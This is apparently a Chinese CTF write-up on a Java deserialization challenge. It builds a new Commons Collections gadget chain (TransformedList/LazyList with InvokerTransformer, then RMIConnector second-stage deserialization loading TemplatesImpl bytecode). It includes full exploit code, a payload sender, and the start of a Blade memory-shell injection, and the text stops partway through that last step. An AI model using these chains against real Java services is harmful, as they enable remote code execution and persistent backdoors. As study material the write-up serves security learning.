# CC依赖-TransformedList触发Invoker利用链-先知社区

> **来源**: https://xz.aliyun.com/news/18655  
> **文章ID**: 18655

---

# 题目分析



题目介绍



给了两个路由，/challenge路由有个反序列化，跟进N1ghtObjectInputStream类



反序列化黑名单

细心的观察了一下

```
AnnotationInvocationHandler没被ban
InvokerTransformer 没被ban
LazyMap,TiedMapEntry，DefaultedMap都被ban了,
ChainedTransformer，InstantiateTransformer被ban了
```

看了一下依赖





能打cc依赖，但是常见的调用链都被ban了

而且框架还是blade不是springboot，应该是要挖掘新链子

# 信息收集

信息收集了一下，很快就锁定了题目出题思路是来自于出题人的一篇文章。

```
https://www.n1ght.cn/2024/04/17/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9Ecommons-collections-TransformedList%E8%A7%A6%E5%8F%91transform/
```



文章已给出了ChainedTransformer调用，顺带还提示了要打InvokerTransform。

链子调用过程文章已的很详细，

然后根据这两篇文章的提示，生成一个agent去hook掉CertPath。

```
http://www.atlant1c.cn/2024/04/18/javaCCList/
https://blog.csdn.net/xixingzhe2/article/details/144536675
```

新建项目导入依赖，然后maven打包



```
MANIFEST.MF

Manifest-Version: 1.0
Premain-Class: org.ezspring.Agent
```

Agent和RemoveReplaceTransformer就是文章提到的两个类。



先1后2即可成功运行下面代码产生链子

```
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantFactory;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.list.LazyList;  
import org.apache.commons.collections.list.TransformedList;  
import org.apache.commons.collections.map.ListOrderedMap;  
import sun.misc.Unsafe;  
import sun.security.provider.certpath.X509CertPath;  
  
import javax.swing.event.EventListenerList;  
import javax.swing.undo.UndoManager;  
import java.io.ByteArrayInputStream;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.security.CodeSigner;  
import java.util.*;  
  
public class ccExp {  
    public static void main(String[] args) throws Exception {  
  
        Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        ArrayList<Object> list = new ArrayList<>();  
        list.add(null);  
        List decorate1 = TransformedList.decorate(list, chainedTransformer);  
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(chainedTransformer));  
        HashMap<Object, Object> map = new HashMap<>();  
        ListOrderedMap decorated = (ListOrderedMap) ListOrderedMap.decorate(map);  
        Field field = Unsafe.class.getDeclaredField("theUnsafe");  
        field.setAccessible(true);  
        Unsafe unsafe = (Unsafe) field.get((Object) null);  
        unsafe.putObject(decorated, unsafe.objectFieldOffset(ListOrderedMap.class.getDeclaredField("insertOrder")), decorate);  
        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);  
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);  
        Object o1 = unsafe.allocateInstance(CodeSigner.class);  
        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);  
        EventListenerList list2 = new EventListenerList();  
        UndoManager manager = new UndoManager();  
        Vector vector = (Vector) getFieldValue(manager, "edits");  
        vector.add(o1);  
        unsafe.putObject(list2,unsafe.objectFieldOffset(list2.getClass().getDeclaredField("listenerList")),new Object[]{InternalError.class, manager});  
        ByteArrayOutputStream bao = new ByteArrayOutputStream();  
        new ObjectOutputStream(bao).writeObject(list2);  
        System.out.println(Base64.getEncoder().encodeToString(bao.toByteArray()));  
        ByteArrayInputStream bin = new ByteArrayInputStream(bao.toByteArray());  
        new ObjectInputStream(bin).readObject();  
    }  
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {  
        Field field = getField(obj.getClass(), fieldName);  
        return field.get(obj);  
    }  
    public static Field getField(Class<?> clazz, String fieldName) {  
        Field field = null;  
  
        try {  
            field = clazz.getDeclaredField(fieldName);  
            field.setAccessible(true);  
        } catch (NoSuchFieldException var4) {  
            if (clazz.getSuperclass() != null) {  
                field = getField(clazz.getSuperclass(), fieldName);  
            }  
        }  
  
        return field;  
    }  
}

```

但是题目是把ChainedTransformer给禁用掉了

所以我们接下来的思路就是要去研究怎么去利用InvokerTransformer打二次反序列化

# 构造链子

反序列化后调用了LazyList的get(0)，



由于是null，就会步入到if方法里面去，

然后调用了this.factory.create()，实际上就是调用了我们传入的ConstantFactory对象的create方法



直接返回了我们需要反射调用的对象

现在的object也就是我们需要反射调用的对象被传入到set方法里面去



再传入到InvokerTransformer的transform



最终完成反射调用。

报错：

```
InvokerTransformer: The method 'connect' on 'class javax.management.remote.rmi.RMIConnector' threw an exception
```

说明该类和方法都被找到，只是执行过程抛出异常。

最后根据这两篇文章构造出一个能打TemplatesImpl字节码的cc+rmi二次反序列化的payload

```
https://xz.aliyun.com/news/14968
https://blog.csdn.net/m0_73973498/article/details/136662275
```

Exp如下

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;
import org.apache.commons.collections.map.ListOrderedMap;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;
import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.CodeSigner;
import java.util.*;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.ByteArrayOutputStream;
import java.util.HashMap;
import java.util.Map;

public class ccExp {
    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream tser = new ByteArrayOutputStream();
        ObjectOutputStream toser = new ObjectOutputStream(tser);
        toser.writeObject(getObject());
        toser.close();

        String exp= Base64.getEncoder().encodeToString(tser.toByteArray());

        //创建恶意的RMIConnector
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+exp);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        ArrayList<Object> list = new ArrayList<>();
        list.add(null);
        List decorate1 = TransformedList.decorate(list, invokerTransformer);
        List decorate = LazyList.decorate(decorate1, new ConstantFactory(rmiConnector));


        HashMap<Object, Object> map = new HashMap<>();
        ListOrderedMap decorated = (ListOrderedMap) ListOrderedMap.decorate(map);
        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);
        unsafe.putObject(decorated, unsafe.objectFieldOffset(ListOrderedMap.class.getDeclaredField("insertOrder")), decorate);
        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), decorate);
        Object o1 = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);
        EventListenerList list2 = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) getFieldValue(manager, "edits");
        vector.add(o1);
        unsafe.putObject(list2,unsafe.objectFieldOffset(list2.getClass().getDeclaredField("listenerList")),new Object[]{InternalError.class, manager});
//        ByteArrayOutputStream bao = new ByteArrayOutputStream();
//        new ObjectOutputStream(bao).writeObject(list2);

//        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser2.out"));
        new ObjectOutputStream(new FileOutputStream("ccnewbin.out")).writeObject(list2);
//        System.out.println(Base64.getEncoder().encodeToString(bao.toByteArray()));
//        ByteArrayInputStream bin = new ByteArrayInputStream(bao.toByteArray());
//        new ObjectInputStream(bin).readObject();
    }
    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
    public static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;

        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException var4) {
            if (clazz.getSuperclass() != null) {
                field = getField(clazz.getSuperclass(), fieldName);
            }
        }

        return field;
    }
    public static HashMap getObject() throws Exception{
        //cc6的HashMap链
        byte[] code = Files.readAllBytes(Paths.get("C:\com\
1ght\util\EvilBlade.class"));

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{code});

        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, obj);


        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(obj);

        setFieldValue(lazyMap,"factory", transformer);

        return expMap;
    }
    public static String bytesTohexString(byte[] bytes) {
        //题目要求16进制
        if (bytes == null)
            return null;
        StringBuilder ret = new StringBuilder(2 * bytes.length);
        for (int i = 0; i < bytes.length; i++) {
            int b = 0xF & bytes[i] >> 4;
            ret.append("0123456789abcdef".charAt(b));
            b = 0xF & bytes[i];
            ret.append("0123456789abcdef".charAt(b));
        }
        return ret.toString();
    }

}
```

发包payload

由于题目是读取post请求体里面的二进制内容的，于是把上面反序列化的payload写入到文件里面

再利用读文件的方式读出来进行一个发包

```
import java.io.*;
import java.net.HttpURLConnection;
import java.net.URL;
import java.nio.file.Files;

public class request {
    public static void main(String[] args) throws Exception {
        byte[] payload = Files.readAllBytes(new File("ccnewbin.out").toPath());
        URL url = new URL("http://challenge.xinshi.fun:31055/challenge");
        HttpURLConnection conn = (HttpURLConnection) url.openConnection();
        conn.setDoOutput(true);
        conn.setRequestMethod("POST");
        conn.setRequestProperty("Content-Type", "application/octet-stream");

        OutputStream os = conn.getOutputStream();
        os.write(payload);
        os.flush();
        os.close();

        System.out.println("Response: " + conn.getResponseCode());
        System.out.println("Response: " + conn.getResponseMessage());
        System.out.println("Response: " + conn.getContent());
    }
}

```

# 题目不出网

# 方法一、

赛后看了官方wp，才知道怎么去打真正的内存马

首先还是需要获取context，主要是com.hellokaton.blade.mvc.WebContext这个类

具体payload如下

```
        Class<?> name = Class.forName("sun.misc.Unsafe");
        Field theUnsafe = name.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        Thread thread = Thread.currentThread();
        ThreadLocal<Object> objectThreadLocal = new ThreadLocal<>();
        Method getMap = ThreadLocal.class.getDeclaredMethod("getMap",Thread.class);
        getMap.setAccessible(true);
        Object threadLocals = getMap.invoke(objectThreadLocal, thread);
        Class<?> threadLocalMap = Class.forName("java.lang.ThreadLocal$ThreadLocalMap");
        Field tablesFiled = threadLocalMap.getDeclaredField("table");
        tablesFiled.setAccessible(true);
        Object table = tablesFiled.get(threadLocals);
        Object o = null;
        for (int i = 0; i < Array.getLength(table); i++) {
            try {
                Object o1 = Array.get(table, i);
                System.out.println(o1.getClass().getName());
                if(o1.getClass().getName().equals("java.lang.ThreadLocal$ThreadLocalMap$Entry")
                ){
                    o = Array.get(table, i);
                }
            }catch (Exception e) {
            }
        }
        System.out.println(o);
        Class<?> entry = Class.forName("java.lang.ThreadLocal$ThreadLocalMap$Entry");
        Field valueField = entry.getDeclaredField("value");
        valueField.setAccessible(true);
        InternalThreadLocalMap value = (InternalThreadLocalMap)
                valueField.get(o);
        WebContext context = null;
        for (int i = 0; i < value.size(); i++) {
            try {
                if (value.indexedVariable(i).getClass().getName().equals("com.hellokaton.blade.mvc.WebContext")) {
                        context = (WebContext) value.indexedVariable(i);
                        break;
                }
            }catch (Exception e) {
            }
        }
       
```

现在我们还需要做的就是如何去注册一个路由

看到com.hellokaton.blade.server.RouteMethodHandler这个类

